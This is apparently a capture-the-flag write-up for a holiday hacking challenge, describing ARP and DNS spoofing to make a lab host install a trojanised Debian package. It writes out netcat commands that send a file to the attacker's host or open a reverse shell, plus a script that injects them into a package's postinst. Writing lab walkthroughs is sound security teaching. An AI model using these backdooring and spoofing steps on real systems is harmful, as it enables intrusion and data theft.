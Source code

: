 # Objective 9: ARP Shenanigans
Location: NetWars

The objective is to get hold of the file `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` on a remote host using ARP  and DNS spoofing.

Exercise setup:
||Local Host|Remote Host  |Spoofed Host|
|--|--|--|--|
|MAC|02:42:0a:06:00:02  | 4c:24:57ab:ed:84 ||
|IP| 10.6.0.2 | 10.6.6.35 |10.6.6.53|

A [Python Scapy script](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/spoof.py) was prepared to spoof ARP replies for the spoofed host redirecting the traffic to the local host.
Furthermore this script spoofs DNS queries destined to the spoofed host and does always return A records pointing to it's own local IP address.
The scripts takes the IP address of the spoofed host as argument, to here is has to be called with `./spoof.py 10.6.6.53`.

Capture of ARP and DNS spoofing with following HTTP request:
```
17:27:16.968588 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
17:27:16.992764 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
17:27:17.009009 IP 10.6.6.35.16498 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
17:27:17.029673 IP 10.6.6.53.53 > 10.6.6.35.16498: 0*- 1/0/0 A 10.6.0.2 (62)
17:27:18.098422 IP 10.6.6.35.50340 > 10.6.0.2.80: Flags [S], seq 2451495177, win 64240, options [mss 1460,sackOK,TS val 2516141758 ecr 0,nop,wscale 7], length 0
17:27:18.098452 IP 10.6.0.2.80 > 10.6.6.35.50340: Flags [R.], seq 0, ack 2451495178, win 0, length 0
```

A Node.js HTTP server was started using  `python3 -m http.server 80` and it logged the request:

    10.6.6.35 - - [12/Dec/2020 17:37:02] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -

On the device the Debian package `netcat-traditional_1.10-41.1ubuntu1_amd64.deb` was found.
This package was modified to include a netcat command in the postinst script to send the text file to our local host:
`/bin/nc 10.6.0.2 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`

By opting for 
`/bin/nc 10.6.0.2 4444 -e /bin/bash`
an interactive reverse shell can be acquired.

The snippet below automatically inserts the correct IP address of the local host and places the package in the right location of the web tree:
```
cd debs
mkdir tmp
dpkg-deb -R netcat-traditional_1.10-41.1ubuntu1_amd64.deb tmp
echo /bin/nc `ifconfig eth0 | grep 'inet ' | awk '{print $2}'`' 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt' >> tmp/DEBIAN/postinst
mkdir -p ../pub/jfrost/backdoor
dpkg-deb -b tmp ../pub/jfrost/backdoor/suriv_amd64.deb

```
That way the remote device would download this package and install it. In course of the installation, the file in scope would be sent to port 4444 of the local host, which has to run the command

    nc -lvp 4444 > text
to receive the [text](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt) (resp. receive the reverse shell connection).
In this file it can be found that **Tanta Kringle** recused herself from the vote.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTk4MTg5ODE4MiwxMjcyNjU2NDE5LDg1OD
E4ODkyOSwxMDkyNzg1MzIxLC0yMDYyNjc1Mjk3LC02MTI4OTc3
OTksLTg1MjcyMjcwMywxNzU4MjQzNjc3LDE2MzQzOTQ5NDEsMT
IwNDQyNjUzOSwtMTc5ODQxNTg5NiwtODc4MzkyMjE2LDUxNDIw
OTE1OV19
-->